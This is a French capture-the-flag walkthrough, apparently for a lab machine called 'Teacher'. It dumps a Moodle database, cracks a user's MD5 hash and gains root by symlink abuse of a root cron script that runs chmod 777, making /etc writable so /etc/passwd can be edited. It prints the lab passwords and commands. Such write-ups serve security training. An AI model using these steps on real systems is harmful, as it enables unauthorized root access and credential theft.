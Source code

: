 On dois se connecter sur le serveur MySQL pour récupérer les données, utilisé la commande mysqldump pour dump la base de données.

    www-data@teacher:/var/www/html/moodle$ mysqldump -u root -p moodle > /tmp/dump_database
    Enter password: Welkom1!
    www-data@teacher:/var/www/html/moodle$ cat /tmp/dump_database|grep giovanni
    
Si nous regardons bien il y'a du MD5 tout en bas, on va déchiffrer ça. Mot de passe de gionvanni : expelled. On peut se connecter avec la commande su sur l'utilisateur.

    www-data@teacher:/home$ su - giovanni
    Password: expelled
    giovanni@teacher:~$ wc -c /home/giovanni/user.txt 
    33 /home/giovanni/user.txt
    giovanni@teacher:~$

PrivEsc
----
Il y'a un fichier assez spécial dans le dossier /usr/bin/backup.sh, un fichier backup essayons de lire ce fichier.

    giovanni@teacher:~$ cat /usr/bin/backup.sh
    #!/bin/bash
    cd /home/giovanni/work;
    tar -czvf tmp/backup_courses.tar.gz courses/*;
    cd tmp;
    tar -xf backup_courses.tar.gz;
    chmod 777 * -R;
    
Dans ce cas il y'a rien de bien compliqué nous allons simplement supprimerl les données dans le /tmp. Et ensuite d'allez dans le dossier cd /home/giovanni/work. Ensuite l'idée est de crée un lien symbolique pour root. Ensuite vous pouvez lire le fichier root.txt sans aucun problème.

    giovanni@teacher:~$ rm -rf /home/giovanni/work/tmp
    giovanni@teacher:~$ cd /home/giovanni/work
    giovanni@teacher:/home/giovanni/work$ ln -s /root tmp
    giovanni@teacher:/home/giovanni/work$ cd tmp
    giovanni@teacher:/home/giovanni/work/tmp$ wc -c root.txt
    33 root.txt

[![forthebadge made-with-python](https://i.giphy.com/media/l4HodBpDmoMA5p9bG/giphy.webp)](https://i.giphy.com/media/l4HodBpDmoMA5p9bG/giphy.webp)

Le travail cron change les autorisations en 777 lorsqu'il extrait l'archive de sauvegarde. Si nous échangeons le répertoire de cours dans le dossier ~ /work/tmp avec un lien symbolique vers /etc, les autorisations de /etc seront modifiées et toutes les modifications seront 777.

    giovanni@teacher:~/work/tmp$ rm -rf courses
    giovanni@teacher:~/work/tmp$ ln -s /etc courses
    giovanni@teacher:~/work/tmp$ ls -l / | grep etc
    drwxrwxrwx 85 root root  4096 Apr 18 21:55 etc
    
Comme vous pouvez le voir nous avons les permissions d'écrire et de lire n'importe quelle fichier dans le dossier /etc. Je vais créer un mot de passe avec mkpasswd pour mettre cela dans le fichier passwd
